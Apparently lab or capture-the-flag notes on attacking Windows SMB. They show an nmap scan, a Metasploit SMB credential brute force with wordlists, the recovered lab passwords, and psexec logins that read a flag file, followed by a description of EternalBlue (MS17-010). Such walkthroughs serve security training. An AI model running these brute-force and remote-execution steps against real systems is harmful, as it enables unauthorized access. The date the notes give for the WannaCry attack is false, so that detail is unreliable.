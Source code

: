 #### Lab

```bash
john@attack> nmap 10.3.24.84 -sV -sC
```

**Brute-force credentials**

```bash
john@attack> msfconsole

msf5> use scanner/smb/smb_login
msf5> options
msf5> set rhosts 10.3.24.84
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> set verbose false
msf5> run
```

Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**First method (Metasploit)**

```bash
john@attack> msfconsole

msf5> use windows/smb/psexec
msf5> set rhosts 10.3.24.84
msf5> set smbuser administrator
msf5> set smbpass qwertyuiop
msf5> run

meterpreter> cat c:\\flag.txt
```

**Second method (PSExec)**

```bash
john@attack> psexec.py administrator:qwertyuiop@10.3.24.84 cmd.exe

C:\Windows\system32> more c:\\flag.txt
```

### MS17-010 (EternalBlue)

#### Description

* EternalBlue (MS17-010/CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the exection of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows :
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016